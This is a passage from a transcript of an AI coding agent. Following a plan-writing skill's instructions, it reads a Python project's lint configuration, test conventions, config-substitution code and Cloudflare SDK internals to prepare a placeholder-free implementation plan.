reject one task while approving its neighbor. Each task ends with an
independently testable deliverable.

## Bite-Sized Task Granularity

**Each step is one action (2-5 minutes):**
- "Write the failing test" - step
- "Run it to make sure it fails" - step
- "Implement the minimal code to make the test pass" - step
- "Run the tests and make sure they pass" - step
- "Commit" - step

## Plan Document Header

**Every plan MUST start with this header:**

```markdown
# [Feature Name] Implementation Plan

> **For agentic workers:** REQUIRED SUB-SKILL: Use superpowers:subagent-driven-development (recommended) or superpowers:executing-plans to implement this plan task-by-task. Steps use checkbox (`- [ ]`) syntax for tracking.

**Goal:** [One sentence describing what this builds]

**Architecture:** [2-3 sentences about approach]

**Tech Stack:** [Key technologies/libraries]

## Global Constraints

[The spec's project-wide requirements — version floors, dependency limits,
naming and copy rules, platform requirements — one line each, with exact
values copied verbatim from the spec. Every task's requirements implicitly
include this section.]

---
```

## Task Structure

````markdown
### Task N: [Component Name]

**Files:**
- Create: `exact/path/to/file.py`
- Modify: `exact/path/to/existing.py:123-145`
- Test: `tests/exact/path/to/test.py`

**Interfaces:**
- Consumes: [what this task uses from earlier tasks — exact signatures]
- Produces: [what later tasks rely on — exact function names, parameter
  and return types. A task's implementer sees only their own task; this
  block is how they learn the names and types neighboring tasks use.]

- [ ] **Step 1: Write the failing test**

```python
def test_specific_behavior():
    result = function(input)
    assert result == expected
```

- [ ] **Step 2: Run test to verify it fails**

Run: `pytest tests/path/test.py::test_name -v`
Expected: FAIL with "function not defined"

- [ ] **Step 3: Write minimal implementation**

```python
def function(input):
    return expected
```

- [ ] **Step 4: Run test to verify it passes**

Run: `pytest tests/path/test.py::test_name -v`
Expected: PASS

- [ ] **Step 5: Commit**

```bash
git add tests/path/test.py src/path/file.py
git commit -m "feat: add specific feature"
```
````

## No Placeholders

Every step must contain the actual content an engineer needs. These are **plan failures** — never write them:
- "TBD", "TODO", "implement later", "fill in details"
- "Add appropriate error handling" / "add validation" / "handle edge cases"
- "Write tests for the above" (without actual test code)
- "Similar to Task N" (repeat the code — the engineer may be reading tasks out of order)
- Steps that describe what to do without showing how (code blocks required for code steps)
- References to types, functions, or methods not defined in any task

## Self-Review

After writing the complete plan, look at the spec with fresh eyes and check the plan against it. This is a checklist you run yourself — not a subagent dispatch.

**1. Spec coverage:** Skim each section/requirement in the spec. Can you point to a task that implements it? List any gaps.

**2. Placeholder scan:** Search your plan for red flags — any of the patterns from the "No Placeholders" section above. Fix them.

**3. Type consistency:** Do the types, method signatures, and property names you used in later tasks match what you defined in earlier tasks? A function called `clearLayers()` in Task 3 but `clearFullLayers()` in Task 7 is a bug.

If you find issues, fix them inline. No need to re-review — just fix and move on. If you find a spec requirement with no task, add the task.

## Execution Handoff

After saving the plan, offer execution choice:

**"Plan complete and saved to `docs/superpowers/plans/<filename>.md`. Two execution options:**

**1. Subagent-Driven (recommended)** - I dispatch a fresh subagent per task, review between tasks, fast iteration

**2. Inline Execution** - Execute tasks in this session using executing-plans, batch execution with checkpoints

**Which approach?"**

**If Subagent-Driven chosen:**
- **REQUIRED SUB-SKILL:** Use superpowers:subagent-driven-development
- Fresh subagent per task + two-stage review

**If Inline Execution chosen:**
- **REQUIRED SUB-SKILL:** Use superpowers:executing-plans
- Batch execution with checkpoints for review

## Assistant

I'm using the writing-plans skill to create the implementation plan.

Per `prompts/new-feature-standards.md`, this goes to `development/2026-07-30-platform-domain-util2/SPEC.md`, not `docs/superpowers/plans/`. Gathering the exact details the plan needs to be placeholder-free:

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '118,150p' /workspace/pyproject.toml; echo ===== RUFF-CHECK; sed -n '65,95p' /workspace/.claude/hooks/ruff-check.sh",
  "description": "Read pyproject and ruff hook entries"
}
```

### ↳ Tool result

```
                # (monkeypatch fakes must accept the real seam's arity) (211)
    "FBT003",   # positional booleans at pinned call sites under test (68)
    "PLC0415",  # in-test imports are the suite's documented loading pattern
                # (checkload/SourceFileLoader style; I8 review adjudicated) (57)
    "PT018",    # composite asserts: splitting 70 sites churns load-bearing tests for
                # zero signal gain (user decision: no assertion churn)
    "SLF001",   # tests reach private seams by design (7)
    "S311",     # non-crypto RNG in test data (5)
    "S603",     # subprocess in sanctioned test harnesses: run_program, the shim
                # probe, and the real-php inliner call in test_css_inliner_encoding (3)
    "DTZ002",   # naive datetimes mirror the program's own date semantics (6)
]
"development/finalize-session.py" = ["T201"]  # a CLI tool: print IS its output
"find-platform-domains-dns.py" = ["T201"]  # a CLI tool: print IS its output (stdout = the CSV,
    # stderr = operator messages).  Temporary, deleted with the script after the Pantheon CDN
    # migration -- see development/2026-07-28-platform-domain-util/SPEC.md section 14.
"find-platform-domains-dns" = ["T201"]  # the extension-less real file the .py entry above
    # symlinks to -- .claude/hooks/ruff-check.sh's edit-time hook hands ruff THIS path (an edit
    # lands on the real file, not the symlink), and per-file-ignores is keyed on the path ruff is
    # given, so the .py entry alone leaves the hook's own invocation reporting T201.  Same
    # justification and deletion condition as the .py entry above.

[tool.pyright]
# Campaign ratchet, type half (CAMPAIGN.md section 13).  Standard mode; the whole psh/
# package is type-checked -- psh/cli.py (the relocated main()) entered the gate at I14a when
# psh/_legacy.py was deleted, so there is no longer anything to grandfather here.  The
# strictness ratchets up as later increments tighten typing (ledger tracks).
include = ["psh", "find-platform-domains-dns.py"]
typeCheckingMode = "standard"

[tool.pytest.ini_options]
testpaths = ["tests"]
# Tiers are selected by mark; see tests/README.md and ./run-tests.
===== RUFF-CHECK
    *)  ABS="$REPO_ROOT/$FILE" ;;
esac
ABS="$(realpath -m -- "$ABS" 2>/dev/null || true)"
[ -n "$ABS" ] || exit 0
[ -f "$ABS" ] || exit 0
case "$ABS" in
    "$REPO_ROOT"/*) ;;
    *) exit 0 ;;
esac

# --- Python only.  The main program is EXTENSION-LESS, so it needs its own arm; the
# committed pantheon-sitehealth-emails.py symlink is what ruff/pyright/CodeGraph resolve
# it through, but an edit lands on the real file.  find-platform-domains-dns (temporary
# utility, see development/2026-07-28-platform-domain-util/SPEC.md) is the same shape.
case "$ABS" in
    *.py) ;;
    "$REPO_ROOT/pantheon-sitehealth-emails") ;;
    "$REPO_ROOT/find-platform-domains-dns") ;;
    *) exit 0 ;;
esac

# --- Binary resolution: same fallback as ./run-tests's ruff_argv() -- the hook and the gate
# MUST agree on the binary AND version just as they agree on the rule set (existing
# invariant).  `ruff` is not on PATH in this environment; uvx is.  The uvx fallback is
# PINNED to 0.15.22, mirroring run-tests's ruff_argv() docstring: CAMPAIGN.md section 13 /
# decision D2 fixes the lint bar at increment I0 and never shifts it mid-campaign, and ruff
# 0.16.0 graduated PLR0917 to stable, which turns the select=ALL gate red with no code
# change.  Upgrading is a deliberate post-campaign decision, not something a `uvx` cache
# refresh may do silently.  If `ruff` is on PATH instead, its version is NOT checked here --
# a PATH-installed ruff must match the pin above (0.15.22) or this hook can silently drift
# from the uvx fallback's guarantee.
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '1,60p' /workspace/tests/unit/test_find_platform_domains_dns.py; echo \"===== SIZE\"; wc -l /workspace/tests/unit/test_find_platform_domains_dns.py",
  "description": "Read dns test file header for loading convention"
}
```

### ↳ Tool result

```
"""Offline tests for the find-platform-domains-dns utility (SPEC section 10).

The script has no .py extension, so it is loaded with the SourceFileLoader idiom the suite
already uses for standalone check/plugin modules (tests/integration/test_plugin_aws.py).  It is
loaded FRESH PER TEST so no module-level state leaks between tests.

Seams (SPEC section 9): `resolve` is monkeypatched on the loaded module; the API getter is
INJECTED as a parameter, never patched; httpx.MockTransport backs the ApiSession tests.
"""
import csv
import importlib.util
import io
import signal
import struct
from importlib.machinery import SourceFileLoader
from pathlib import Path

import dns.resolver
import httpx
import pytest
from helpers.dnsfake import make_resolver

pytestmark = pytest.mark.unit

# EVERY import for EVERY task in this file belongs in this block.  Later tasks append tests, not
# imports: ruff's E402 (module-level import not at top of file) is not in the tests/** ignore
# list, so an `import httpx` half way down the file fails the gate.

SCRIPT = Path(__file__).resolve().parent.parent.parent / "find-platform-domains-dns"


@pytest.fixture
def fpd():
    """The utility, loaded fresh.  Its entry point is __main__-guarded, so import runs no sweep."""
    loader = SourceFileLoader("find_platform_domains_dns_probe", str(SCRIPT))
    spec = importlib.util.spec_from_loader(loader.name, loader)
    assert spec is not None
    module = importlib.util.module_from_spec(spec)
    loader.exec_module(module)
    return module


@pytest.fixture(autouse=True)
def _restore_sigint_handler():
    """Fix round 2, N1 (Critical).  report_stop() calls the REAL `signal.signal(SIGINT,
    SIG_IGN)` for a real reason (m5, fix round 1) -- but a process's signal handler is global and
    outlives the test that set it.  Only the dedicated m5 test replaces the seam
    (`fpd.signal.signal`) with a recording stub that never touches the real handler; the other
    ten tests that reach report_stop() (directly or via main()) call the real one, so SIG_IGN
    leaked into the REST of the pytest session -- measured: still SIG_IGN after the whole --fast
    suite finished, 312 tests after the last leaking one.  This is a repo-wide test-isolation
    guard, not a per-test concern, so it is autouse and restores whatever handler was in place
    BEFORE this test ran, regardless of what the test itself (or the code under test) did to
    it -- it does not need to know about `fpd.signal.signal` at all, only about the process-level
    handler `signal.signal`/`signal.getsignal` observe.  Session-scoped would not work here: it
    would capture the ORIGINAL handler once, at the first test, and restore it only once, at the
    very end -- masking a leak between any two tests in between, which is exactly the shape of
    this defect.
    """
    original = signal.getsignal(signal.SIGINT)
===== SIZE
2619 /workspace/tests/unit/test_find_platform_domains_dns.py
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nimport cloudflare, inspect\nprint('cloudflare version', cloudflare.__version__)\nfrom cloudflare.types.dns import record_response\nimport cloudflare.types.dns as d\nnames=[n for n in dir(d) if 'Record' in n]\nprint(names[:40])\n\" 2>&1 | head -20",
  "description": "Inspect cloudflare SDK record types"
}
```

### ↳ Tool result

```
cloudflare version 5.4.0
['AAAARecord', 'AAAARecordParam', 'ARecord', 'ARecordParam', 'CAARecord', 'CAARecordParam', 'CERTRecord', 'CERTRecordParam', 'CNAMERecord', 'CNAMERecordParam', 'DNSKEYRecord', 'DNSKEYRecordParam', 'DSRecord', 'DSRecordParam', 'HTTPSRecord', 'HTTPSRecordParam', 'LOCRecord', 'LOCRecordParam', 'MXRecord', 'MXRecordParam', 'NAPTRRecord', 'NAPTRRecordParam', 'NSRecord', 'NSRecordParam', 'PTRRecord', 'PTRRecordParam', 'RecordBatchParams', 'RecordBatchResponse', 'RecordCreateParams', 'RecordDeleteResponse', 'RecordEditParams', 'RecordExportResponse', 'RecordImportParams', 'RecordImportResponse', 'RecordListParams', 'RecordResponse', 'RecordScanParams', 'RecordScanResponse', 'RecordScanReviewParams', 'RecordScanReviewResponse']
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nfrom cloudflare.types.dns import CNAMERecord, MXRecord\nprint('CNAME fields:', sorted(CNAMERecord.model_fields.keys()))\nprint()\nprint('MX fields:', sorted(MXRecord.model_fields.keys()))\nprint()\nimport cloudflare.types.dns.record_response as rr\nprint([n for n in dir(rr) if not n.startswith('_')][:20])\n\"",
  "description": "Check CNAMERecord field names"
}
```

### ↳ Tool result

```
CNAME fields: ['comment', 'content', 'name', 'proxied', 'settings', 'tags', 'ttl', 'type']

MX fields: ['comment', 'content', 'name', 'priority', 'proxied', 'settings', 'tags', 'ttl', 'type']

['A', 'AAAA', 'AAAARecord', 'ARecord', 'Annotated', 'BaseModel', 'CAA', 'CAARecord', 'CERT', 'CERTRecord', 'CNAME', 'CNAMERecord', 'DNSKEY', 'DNSKEYRecord', 'DS', 'DSRecord', 'HTTPS', 'HTTPSRecord', 'LOC', 'LOCRecord']
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nimport cloudflare.types.dns.record_response as rr\nprint('CNAME resp fields:', sorted(rr.CNAME.model_fields.keys()))\nprint()\nprint('TXT resp fields:', sorted(rr.TXT.model_fields.keys()))\nprint()\nimport cloudflare, inspect\nfrom cloudflare.resources.dns.records import DNSRecordsResource\nsig = inspect.signature(DNSRecordsResource.list)\nprint([p for p in sig.parameters][:30])\n\"",
  "description": "Check RecordResponse CNAME fields and list signature"
}
```

### ↳ Tool result

```
Exit code 1
Traceback (most recent call last):
  File "<string>", line 8, in <module>
    from cloudflare.resources.dns.records import DNSRecordsResource
ImportError: cannot import name 'DNSRecordsResource' from 'cloudflare.resources.dns.records' (/workspace/.venv/lib/python3.13/site-packages/cloudflare/resources/dns/records.py)
CNAME resp fields: ['comment', 'comment_modified_on', 'content', 'created_on', 'id', 'meta', 'modified_on', 'name', 'proxiable', 'proxied', 'settings', 'tags', 'tags_modified_on', 'ttl', 'type']

TXT resp fields: ['comment', 'comment_modified_on', 'content', 'created_on', 'id', 'meta', 'modified_on', 'name', 'proxiable', 'proxied', 'settings', 'tags', 'tags_modified_on', 'ttl', 'type']
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"def config_substitution\" -A 60 /workspace/psh/configuration.py",
  "description": "Read config_substitution marker syntax"
}
```

### ↳ Tool result

```
17:def config_substitution(expr: str, path) -> str:  # noqa: C901, PLR0912, PLR0915 -- best-match scorer moved behavior-preserving; restructuring is a review activity, not part of a move (I2 run_terminus precedent). Covered by tests/unit/test_config_substitution.py.
18-    argv = list(shlex.shlex(expr, posix=True))
19-    argc = len(argv)
20-    if sc.options.verbose > 1:
21-        sc.debug(f"\nconfig_substitution: {path}")
22-        pprint(argv)
23-    if argc == 0:
24-        return ""
25-
26-    # Figure out which substitution matches the expression most closely:
27-    best_match: dict[str, Any] | None = None
28-    best_match_score = 0
29-    best_match_args_map = {}
30-    for match in sc.substitutions:
31-        match_args = match["args"]
32-        match_args_len = len(match_args)
33-        match_score = 0
34-        args_map = {}
35-        for i in range(argc):
36-            if i >= match_args_len:
37-                break
38-            if match_args[i] == argv[i]:
39-                match_score += 1
40-            elif match_args[i].startswith("$"):
41-                match_score += 1
42-                args_map[match_args[i]] = argv[i]
43-            else:
44-                break
45-        if match_score > best_match_score:
46-            best_match = match
47-            best_match_score = match_score
48-            best_match_args_map = args_map
49-            if match_score == argc and match_score == match_args_len:
50-                break
51-
52-    if sc.options.verbose >= 2:  # noqa: PLR2004 -- same: verbosity threshold, not a magic number to name
53-        sc.debug(f"best_match: {best_match_score}")
54-        pprint(best_match_args_map)
55-        pprint(best_match)
56-
57-    if best_match_score == argc:
58-        # A malformed substitution can match on token count yet leave a $var uncaptured -- e.g.
59-        # the zero-name forms "<{env}" / "<{secret env}", which score == argc with an empty
60-        # args_map.  Guard the func_args build so that fails cleanly instead of with a bare
61-        # KeyError traceback.
62-        assert best_match is not None  # noqa: S101 -- pyright type-narrowing only: best_match_score > 0 implies best_match was assigned above; not a security/input-validation check, so stripping under -O is harmless (SPEC §Pyright findings #2)
63-        try:
64-            func_args = [best_match_args_map[arg] for arg in best_match["func_args"]]
65-        except KeyError:
66-            sc.console.print(
67-                f"[bold red]ERROR: configuration value for {path}: malformed substitution: {expr}"
68-            )
69-            sys.exit(1)
70-        if sc.options.verbose >= 2:  # noqa: PLR2004 -- same: verbosity threshold, not a magic number to name
71-            sc.debug("args:")
72-            pprint(func_args)
73-        try:
74-            result = best_match["func"](*func_args)
75-        except sc.ConfigSubstitutionError as e:
76-            sc.console.print(
77-                f"[bold red]ERROR: configuration value for {path}: {escape(str(e))}"
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"SUBSTITUTION\\|<{\\|re.compile\\|def process_config\" -B2 -A12 /workspace/psh/configuration.py | sed -n '1,80p'",
  "description": "Find the marker regex in configuration.py"
}
```

### ↳ Tool result

```
1:"""Configuration engine: <{ ... }> substitution (two-pass, with DEFER), section gating, news
2-loading, and the umich/cloudflare feature flags.  Moved from psh/_legacy.py at campaign I3; the
3-remnant re-imports these names so its call sites resolve unchanged (CAMPAIGN.md §3.1)."""
4-import re
5-import shlex
6-import sys
7-import tomllib
8-from pathlib import Path
9-from typing import Any
10-
11-from rich.markup import escape
12-from rich.pretty import pprint
13-
--
57-    if best_match_score == argc:
58-        # A malformed substitution can match on token count yet leave a $var uncaptured -- e.g.
59:        # the zero-name forms "<{env}" / "<{secret env}", which score == argc with an empty
60-        # args_map.  Guard the func_args build so that fails cleanly instead of with a bare
61-        # KeyError traceback.
62-        assert best_match is not None  # noqa: S101 -- pyright type-narrowing only: best_match_score > 0 implies best_match was assigned above; not a security/input-validation check, so stripping under -O is harmless (SPEC §Pyright findings #2)
63-        try:
64-            func_args = [best_match_args_map[arg] for arg in best_match["func_args"]]
65-        except KeyError:
66-            sc.console.print(
67-                f"[bold red]ERROR: configuration value for {path}: malformed substitution: {expr}"
68-            )
69-            sys.exit(1)
70-        if sc.options.verbose >= 2:  # noqa: PLR2004 -- same: verbosity threshold, not a magic number to name
71-            sc.debug("args:")
--
83-            # The substitution's backing data is not ready yet (a setup hook populates it).
84-            # Re-emit the marker with an invisible tag so ONLY the post-setup pass re-resolves
85:            # it -- a pass-1 final value that merely happens to contain "<{...}" (e.g. a secret)
86-            # is left untouched by the second pass.  See process_config()/main().
87:            return "<{" + _DEFER_TAG + expr + "}"
88-        return str(result)
89-
90-    if best_match_score == 0:
91-        sc.console.print(
92-            f"[bold red]ERROR: configuration file value for {path} contains an unknown substitution: {expr}"
93-        )
94-        sys.exit(1)
95-
96-    assert best_match is not None  # noqa: S101 -- pyright type-narrowing only: best_match_score > 0 implies best_match was assigned above; not a security/input-validation check, so stripping under -O is harmless (SPEC §Pyright findings #2)
97-    sc.console.print(
98-        f"[bold red]ERROR: no match found for configuration file value of {path}"
99-    )
--
106-# A NUL tag marks a re-emitted DEFERred substitution (see config_substitution).  NUL cannot occur
107-# in a config/env/secret value, so the deferred pass can re-resolve exactly the deferred markers
108:# and never a pass-1 final value that merely happens to contain "<{...}".
109-_DEFER_TAG = "\x00"
110:config_substitution_re = re.compile(r"<\{(.*?)(?<!\\)}")
111:config_substitution_deferred_re = re.compile(r"<\{" + _DEFER_TAG + r"(.*?)(?<!\\)}")
112-
113-
114:def process_config(data: Any, path="", *, deferred_pass=False) -> Any:
115:    """Resolve <{ ... }> substitutions in every string value.
116-
117-    Called twice by main(): the first (pre-setup) pass resolves everything, tagging any
118-    substitution that returns sc.DEFER for the second pass.  The second (`deferred_pass=True`,
119-    post-setup) pass re-resolves ONLY those tagged markers, so a value already resolved to a
120:    final literal in pass 1 is never re-interpreted -- even if it contains a "<{...}" sequence.
121-    """
122-    regex = config_substitution_deferred_re if deferred_pass else config_substitution_re
123-    if isinstance(data, dict):
124-        for key, value in data.items():
125-            new_path = f"{path}.{key}" if path else f"{key}"
126-            data[key] = process_config(value, new_path, deferred_pass=deferred_pass)
127-    elif isinstance(data, list):
128-        for index, item in enumerate(data):
129-            new_path = f"{path}[{index}]"
130-            data[index] = process_config(item, new_path, deferred_pass=deferred_pass)
131-    elif isinstance(data, str):
132-        data = re.sub(
--
143-
144-    Done BEFORE substitution resolution (process_config) so a disabled feature never forces its
145:    `<{secret env ...}>` / `<{secret aws ...}>` values to exist -- turning a feature off must not
146-    require its credentials to be present.  Applies recursively: a nested table like
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/plugin/env/__init__.py"
}
```

### ↳ Tool result

```
1	import script_context as sc
2	
3	from .get_env import get_env
4	
5	# The `env` substitution has no external dependency and is needed by core [SMTP] config
6	# (e.g. username = "<{env USER}"), so it is registered unconditionally rather than gated on an
7	# `enabled` flag -- gating it would create a chicken-and-egg problem (a disabled [Env] would
8	# break every <{env ...}> in the file).  This is a deliberate exception to the plugin
9	# enable-flag convention.
10	#
11	# Order matters: the 2-argument (no-default) pattern must be registered BEFORE its 3-argument
12	# ($default) counterpart, so the best-match engine's perfect-match short-circuit binds
13	# "<{env NAME}" to the no-default form.  If the 3-arg pattern came first, "<{env NAME}" would
14	# match it (score == argc, but not a perfect-length match, so no short-circuit) and then
15	# KeyError on the uncaptured $default.  See config_substitution() and SPEC section 4.5.
16	sc.substitutions.append({'args': ['env', '$name'],
17	                         'func': get_env, 'func_args': ['$name']})
18	sc.substitutions.append({'args': ['env', '$name', '$default'],
19	                         'func': get_env, 'func_args': ['$name', '$default']})
20	sc.substitutions.append({'args': ['secret', 'env', '$name'],
21	                         'func': get_env, 'func_args': ['$name']})
22	sc.substitutions.append({'args': ['secret', 'env', '$name', '$default'],
23	                         'func': get_env, 'func_args': ['$name', '$default']})
24
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '1,118p' /workspace/pyproject.toml",
  "description": "Read full ruff config"
}
```

### ↳ Tool result

```
[project]
name = "pantheon-sitehealth-emails"
version = "0.2.0"
# 3.12+, not 3.11: the program uses PEP 701 backslash escapes inside f-strings at
# 5 sites (grep `\\,` in the notice builders), which are a SyntaxError at import on
# 3.11.  This also drives ruff's target-version -- see [tool.ruff] below.
requires-python = ">=3.12"
dependencies = [
    "rich",
    "SQLAlchemy",
    "matplotlib",
    "Jinja2",
    "dnspython",
    "html2text",
    'semver',
]

[project.optional-dependencies]
mysql = [
    "mysqlclient",
]
aws = [
    "boto3",
    "botocore",
]
cloudflare = [
    "cloudflare",
    # For the [Cloudflare.cachecheck] site cache checks (check/cloudflare/).  httpx was
    # already a transitive dep of the cloudflare SDK; it and beautifulsoup4 are direct
    # deps of ours now.
    "httpx",
    "beautifulsoup4",
]
test = [
    "pytest",
    "syrupy",
    "hypothesis",
    "pytest-cov",
    "pytest-playwright",
    # The check/cloudflare integration tests parse canned HTML with real bs4 and build
    # canned responses around the httpx-based seam:
    "httpx",
    "beautifulsoup4",
    # Campaign ratchet, type half (CAMPAIGN.md section 13): ./run-tests gates on pyright.
    # PINNED (D2, mirroring the ruff@0.15.22 pin in run-tests/ruff-check.sh): the campaign's
    # type bar is fixed at increment I0 and never shifts mid-campaign, so a pyright upgrade
    # cannot silently change the gate's verdict for reasons outside the diff (PD#14).
    # Upgrading is a deliberate post-campaign decision (README TODO), not a cache refresh.
    "pyright==1.1.411",
]

[build-system]
requires = ["setuptools"]
build-backend = "setuptools.build_meta"

[tool.setuptools]
# Deps-only install, on purpose: the program is repo-rooted (CWD-relative check/,
# plugin/, templates, config symlink), so installing psh into site-packages would
# create a stale shadow copy -- a silent-failure hazard.  packages = [] stops
# setuptools auto-discovery from picking up psh/ now that it exists.
py-modules = []
packages = []

[tool.ruff]
# NO target-version.  Ruff infers it from `requires-python`, and that is load-bearing:
# pinning target-version = "py312" here MASKS the 3.11-vs-PEP-701 defect entirely --
# the 10 invalid-syntax errors simply vanish -- so a future session reverting
# requires-python to ">=3.11" would get SILENCE instead of a failure.  The instrument
# must stay red-capable.  See prompts/directives.md PD#14.
#
# development/2* -- the dated archive folders (development/2026-*, ...) hold verbatim
# measurement artifacts: .py files that are historical records, not maintained code
# (e.g. charts-scratch-measured.py, I11).  Re-linting a record is meaningless and a
# "fix" would falsify it, so the dated folders are excluded by design (I14b SPEC section
# 2.3, D-i14b-2).  development/finalize-session.py -- the active session-archive tool, at
# development/'s root, ABOVE the dated folders -- is NOT matched by this glob and stays
# FULLY gated (a `*` does not cross a `/`, so `2*` matches only the dated subdirectories).
extend-exclude = ["development/2*"]

[tool.ruff.lint]
# The campaign ratchet's FINAL form (CAMPAIGN.md section 13, merged at I14b): ONE ruff pass,
# select = ALL minus the justified ignores below.  This SUPERSEDES the old two-config design
# -- the narrow PD-rule `select` that used to live here (E722/BLE001/S105/S106) and the broad
# ruff-broad.toml (now deleted) fold into this one block.  Those four PD rules are members of
# ALL and STILL run everywhere not excluded above, so the merge does NOT weaken the old narrow
# gate (red-demonstrated, I14b SPEC section 4).  No --select anywhere: this config is the
# single source of truth, read identically by ./run-tests and .claude/hooks/ruff-check.sh.
select = ["ALL"]
ignore = [
    # -- Formatter territory (no autoformatter is adopted; these fight hand style):
    "COM812",  # trailing-comma
    "ISC001",  # implicit str concat (conflicts with COM812 tooling advice)
    "E501",    # line length -- house style has long notice literals; revisiting is post-campaign work (with the house-style README TODO)
    "Q000", "Q001", "Q002", "Q003",  # quote style
    # -- Owned by pyright, not ruff:
    "ANN",     # type annotations -- pyright gates typing (pyproject [tool.pyright])
    # -- Deliberate house practice:
    "TD002", "TD003", "FIX002",  # TODOs are tracked in README/ledger, not as issues
    "EM101", "EM102",  # message-in-raise is accepted; PD#2 covers the real risk
    "TRY003",  # long exception messages in-line -- same rationale as EM
    "D",       # docstring convention undecided -- see the README TODO (post-campaign)
    "CPY001",  # no per-file copyright headers in this repo
]
# Governance (carried from ruff-broad.toml, which merged into this file at campaign
# I14b): adding an ignore above, or a per-file-ignores entry below, requires a
# justification comment here AND a LEDGER.md entry (until the campaign closes; its
# successor rule lands in CLAUDE.md at I14d).

[tool.ruff.lint.per-file-ignores]
"tests/**" = [
    "S101",     # pytest asserts ARE the mechanism (1,715 sites)
    "S105", "S106",  # fake fixture credentials (carried over from the narrow config's
                     # existing "tests/*" entry -- verified 2026-07-16, re-verified I14b)
    "INP001",   # pytest collects without __init__.py; adding them changes import
                # semantics for zero gain (120 sites)
    "PLR2004",  # expected literals in assertions are the point (74)
    "ARG001", "ARG002", "ARG005",  # fixture params + seam-matching fake signatures
                # (monkeypatch fakes must accept the real seam's arity) (211)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nfrom cloudflare import Cloudflare\nc = Cloudflare(api_token='tok-123')\nprint('api_token:', c.api_token, '| api_email:', c.api_email, '| api_key:', c.api_key)\nd = Cloudflare(api_email='a@b.c', api_key='k-456')\nprint('api_token:', d.api_token, '| api_email:', d.api_email, '| api_key:', d.api_key)\nimport shlex\nprint(list(shlex.shlex('secret env CLOUDFLARE_EMAIL', posix=True)))\nprint(list(shlex.shlex('env FOO some-default', posix=True)))\n\"",
  "description": "Verify client attrs and shlex tokenization"
}
```

### ↳ Tool result

```
api_token: tok-123 | api_email: «REDACTED:credential-email» | api_key: «REDACTED:cloudflare-api-key»
api_token: None | api_email: «REDACTED:credential-email» | api_key: k-456
['secret', 'env', 'CLOUDFLARE_EMAIL']
['env', 'FOO', 'some', '-', 'default']
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nimport inspect\nfrom cloudflare import Cloudflare\nsrc = inspect.getsource(Cloudflare)\ni = src.find('auth_headers')\nprint(src[i-200:i+1400])\n\" | head -60",
  "description": "Inspect SDK auth header selection"
}
```

### ↳ Tool result

```
Traceback (most recent call last):
  File "/workspace/.venv/install/cpython-3.13.14-linux-aarch64-gnu/lib/python3.13/inspect.py", line 1091, in findsource
    lnum = vars(object)['__firstlineno__'] - 1
           ~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^
KeyError: '__firstlineno__'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "<string>", line 4, in <module>
    src = inspect.getsource(Cloudflare)
  File "/workspace/.venv/install/cpython-3.13.14-linux-aarch64-gnu/lib/python3.13/inspect.py", line 1267, in getsource
    lines, lnum = getsourcelines(object)
                  ~~~~~~~~~~~~~~^^^^^^^^
  File "/workspace/.venv/install/cpython-3.13.14-linux-aarch64-gnu/lib/python3.13/inspect.py", line 1249, in getsourcelines
    lines, lnum = findsource(object)
                  ~~~~~~~~~~^^^^^^^^
  File "/workspace/.venv/install/cpython-3.13.14-linux-aarch64-gnu/lib/python3.13/inspect.py", line 1093, in findsource
    raise OSError('source code not available')
OSError: source code not available
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"auth_headers\\|_api_key_auth\\|_api_email\\|def _bearer\" -A 14 /workspace/.venv/lib/python3.13/site-packages/cloudflare/_client.py | sed -n '1,70p'",
  "description": "Read SDK auth header selection source"
}
```

### ↳ Tool result

```
1127:    def auth_headers(self) -> dict[str, str]:
1128:        if self._api_email:
1129:            return self._api_email
1130-        if self._api_key:
1131-            return self._api_key
1132-        if self._api_token:
1133-            return self._api_token
1134-        if self._user_service_key:
1135-            return self._user_service_key
1136-        return {}
1137-
1138-    @property
1139:    def _api_email(self) -> dict[str, str]:
1140-        api_email = self.api_email
1141-        if api_email is None:
1142-            return {}
1143-        return {"X-Auth-Email": api_email}
1144-
1145-    @property
1146-    def _api_key(self) -> dict[str, str]:
1147-        api_key = self.api_key
1148-        if api_key is None:
1149-            return {}
1150-        return {"X-Auth-Key": api_key}
1151-
1152-    @property
1153-    def _api_token(self) -> dict[str, str]:
--
2079:    def auth_headers(self) -> dict[str, str]:
2080:        if self._api_email:
2081:            return self._api_email
2082-        if self._api_key:
2083-            return self._api_key
2084-        if self._api_token:
2085-            return self._api_token
2086-        if self._user_service_key:
2087-            return self._user_service_key
2088-        return {}
2089-
2090-    @property
2091:    def _api_email(self) -> dict[str, str]:
2092-        api_email = self.api_email
2093-        if api_email is None:
2094-            return {}
2095-        return {"X-Auth-Email": api_email}
2096-
2097-    @property
2098-    def _api_key(self) -> dict[str, str]:
2099-        api_key = self.api_key
2100-        if api_key is None:
2101-            return {}
2102-        return {"X-Auth-Key": api_key}
2103-
2104-    @property
2105-    def _api_token(self) -> dict[str, str]:
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '/^class Cloudflare(SyncAPIClient)/,/^        super().__init__/p' /workspace/.venv/lib/python3.13/site-packages/cloudflare/_client.py | grep -n \"api_email\\|api_key\\|api_token\\|environ\\|raise\\|user_service_key\" | head -40",
  "description": "Read Cloudflare.__init__ env fallback"
}
```

### ↳ Tool result

```
3:    api_token: str | None
4:    api_key: str | None
5:    api_email: str | None
6:    user_service_key: str | None
11:        api_token: str | None = None,
12:        api_key: str | None = None,
13:        api_email: str | None = None,
14:        user_service_key: str | None = None,
26:        # When enabled an error APIResponseValidationError is raised
